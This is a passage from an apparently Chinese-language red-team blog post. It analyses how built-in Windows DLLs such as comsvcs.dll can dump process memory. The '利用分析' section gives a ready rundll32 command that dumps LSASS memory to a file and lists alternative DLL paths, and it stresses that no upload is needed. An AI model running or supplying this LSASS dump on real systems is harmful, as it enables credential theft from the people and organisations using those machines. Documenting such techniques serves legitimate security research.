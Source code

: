 无法使用32位的dll：

- C:\Windows\Syswow64\comsvcs.dll
- C:\Windows\winsxs\x86_microsoft-windows-c..fe-catsrvut-comsvcs_31bf3856ad364e35_6.1.7600.16385_none_7298bb510131906e\comsvcs.dll

#### 2.dbghelp.dll对应API MiniDumpWriteDump

#### 3.SOS.dll中的导出函数minidumpmode

用于防止在使用minidump时执行非安全命令。0表示禁用这个功能，1表示启用。默认为0

## 0x05 利用分析
---

如果想要dump指定进程的内存文件，可以使用新的方法，示例命令如下：

```
powershell -c "rundll32 C:\windows\system32\comsvcs.dll, MiniDump 808 C:\test\lsass.dmp full"
```

其中comsvcs.dll可以替换为以下dll：

- C:\Windows\Syswow64\comsvcs.dll
- C:\Windows\winsxs\amd64_microsoft-windows-c..fe-catsrvut-comsvcs_31bf3856ad364e35_6.1.7600.16385_none_ceb756d4b98f01a4\comsvcs.dll
- C:\Windows\winsxs\x86_microsoft-windows-c..fe-catsrvut-comsvcs_31bf3856ad364e35_6.1.7600.16385_none_7298bb510131906e\comsvcs.dll

这种方法的优点是不需要上传文件，使用系统默认包含的dll就可以实现

## 0x06 小结
---

本文在odzhan文章的基础上，补充在测试过程中需要注意的地方，扩展方法，分析利用思路。编写powershell脚本，实现自动化扫描系统目录下所有dll的导出函数。



---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)

